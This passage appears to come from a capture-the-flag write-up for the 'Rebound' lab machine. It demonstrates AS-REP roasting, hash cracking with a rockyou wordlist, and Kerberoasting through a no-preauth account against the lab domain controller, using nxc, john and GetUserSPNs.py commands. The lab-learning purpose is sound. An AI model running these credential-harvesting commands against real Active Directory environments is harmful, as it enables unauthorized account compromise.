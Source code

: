 and there is also an account with an asreproasting vulnerability. lets try to grab **ASREP** has and see if its crackable.

```html
# to grab asprep hash
nxc ldap rebound.htb -u users.txt -p '' --asreproast a.txt
# to crack
john jjones_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![alt text](../assets/images/kerberos84.png)

We wanna run kerberoasting but we dont have creds yet??? o lets run this one. we wont pre-auth on jjones and will grab kerberoasting hashes!

```html
GetUserSPNs.py -no-preauth jjones -usersfile users.txt -dc-host 10.10.11.231 rebound.htb/
#or
nxc ldap rebound.htb -u users.txt -p '' --no-preauth-targets jjones --kerberoasting output.txt
```

![alt text](../assets/images/kerberos85.png)

https://www.semperis.com/blog/new-attack-paths-as-requested-sts/